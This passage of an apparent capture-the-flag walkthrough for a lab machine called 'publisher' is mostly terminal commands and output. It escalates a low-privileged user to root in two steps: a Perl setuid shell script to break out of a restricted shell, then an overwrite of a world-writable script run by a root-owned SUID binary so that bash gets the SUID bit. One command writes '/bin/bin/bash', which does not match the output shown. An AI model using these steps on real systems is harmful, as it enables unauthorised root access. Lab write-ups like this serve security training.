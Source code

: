 think@publisher:/dev/shm$ touch file
think@publisher:/dev/shm$ ls
file

```

Great! We can, let’s do the bypass trick now.

```

think@publisher:/dev/shm$ echo '#!/usr/bin/perl
> use POSIX qw(strftime);
> use POSIX qw(setuid);
> POSIX::setuid(0);
> exec "/bin/sh"' > /dev/shm/test.pl
think@publisher:/dev/shm$ ls -l
total 4
-rw-rw-r-- 1 think think  0 Sep 30 18:14 file
-rw-rw-r-- 1 think think 95 Sep 30 18:15 test.pl
think@publisher:/dev/shm$ chmod +x test.pl 
think@publisher:/dev/shm$ ./test.pl 
$ id
uid=1000(think) gid=1000(think) groups=1000(think)

```

Now let’s check the /usr/sbin/run_container binary.

```
$ /usr/sbin/run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 46 minutes

Enter the ID of the container or leave blank to create a new one: asdfsdf
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container
2) Stop Container
3) Restart Container
4) Create Container
5) Quit
```

When running the binary, we got prompt to enter an id of a container. I entered a random string and after that we can see that it’s running /opt/run_container.sh file.

```
$ ls -l /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```
Checking the file permission we see that we have write permissions over it.

I’ll write the following to the shell file that adds suid bit to /bin/bash

```
echo 'chmod +s /bin/bin/bash' > /opt/run_container.sh
```
Now we run the binary.

```$ /usr/sbin/run_container
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
$ /bin/bash -p
bash-5.0# whoami
root
And we got root!
```